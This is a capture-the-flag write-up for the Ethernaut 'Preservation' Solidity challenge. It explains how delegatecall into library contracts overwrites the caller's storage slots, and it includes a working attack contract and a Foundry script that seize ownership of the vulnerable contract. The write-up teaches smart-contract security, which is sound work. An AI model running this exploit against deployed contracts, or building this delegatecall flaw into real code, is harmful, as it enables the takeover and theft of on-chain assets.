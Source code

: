 # Ethernaut Level 16 Preservation

---

Contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```

Our goal is to claim ownership of the `Preservation` contract. We can easily see that delegate calling `setTime()` will not work as it is meant to. Since `Preservation` is delegate calling `LibraryContract` instances, state changes will happen to contract `Preservation`, not the other way around. However, the state change will keep the slot position consistent, that is to say, delegate calling `setTime` will only change the *first* storage slot of the `Preservation` contract, where the `address public timeZone1Library` is meant to be stored.

So we can attack this contract in this way: `1. Delegate call setTime to point variable timeZone1Library to our malicious contract.` `2. Delegate call setTime again to modify the owner.` Note that in order to modify the owner, which lies in slot 2, attack contract has to have a similar storage layout, where the changeable slot is also slot 2.

`Attack.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack {
    address public awkwardStorage0;
    address public awkwardStorage1;
    address public owner;

    function setTime(uint256 _time) public {
        owner = msg.sender;
    }
}
```

Note that the `msg.sender` will be exactly the address which calls `Preservation` contract (EOA).

`Preservation.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {Preservation} from "../src/Preservation.sol";
import {Attack} from "../src/Attack.sol";

contract PreservationScript is Script {
    Preservation preservation = Preservation(0xXXXXXXXXXXXXX);
    
    function run() external {
        vm.startBroadcast();
        console.log("Before attack, owner is:", preservation.owner());
        Attack attack = new Attack();
        preservation.setFirstTime(uint256(uint160(address(attack))));
        preservation.setFirstTime(1);
        console.log("After attack, owner is:", preservation.owner());
        vm.stopBroadcast();
    }
}
```

